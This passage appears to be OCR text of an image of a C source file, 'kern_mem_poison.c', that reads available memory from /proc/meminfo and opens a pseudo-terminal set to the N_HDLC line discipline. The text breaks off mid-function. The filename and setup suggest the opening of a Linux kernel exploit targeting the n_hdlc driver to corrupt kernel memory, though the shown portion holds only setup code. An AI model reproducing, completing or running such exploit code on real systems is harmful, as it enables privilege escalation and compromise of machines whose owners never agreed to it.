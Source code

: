 + kern_mem_poison.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <sys/ioctl.h>
#include <termios.h>
#include <ctype.h>

static unsigned long mem_avail = 0;
static int get_memory_avail(void)
{
	int fd = open("/proc/meminfo", O_RDONLY);
	if (fd == -1) {
		return -1;
	}

	char buf[4096];
	memset(buf, 0, 4096);
	int err = read(fd, buf, 4096);
	if (err == -1) {
		close(fd);
		return -1;
	}

	char *string = "MemAvailable:";
	char *p = strstr(buf, string);
	if (!p) {
		close(fd);
		return -1;
	}

	p += strlen(string);
	while (isspace(*p))
		p++;

	mem_avail = 1024 * atoll(p);
	return 0;
}

static int open_n_hdlc(void)
{
	int fd = open("/dev/ptmx", O_RDWR | O_NONBLOCK);
	if (fd == -1) {
		return -1;
	}

	int cmd = TIOCSETD;
	int arg = N_HDLC;
	int err = ioctl(fd, cmd, &arg);
	if (err == -1) {
		close(fd);
		return -1;
	}

	err = ioctl(fd, TCXONC, TCOOFF);
	if (err == -1) {
```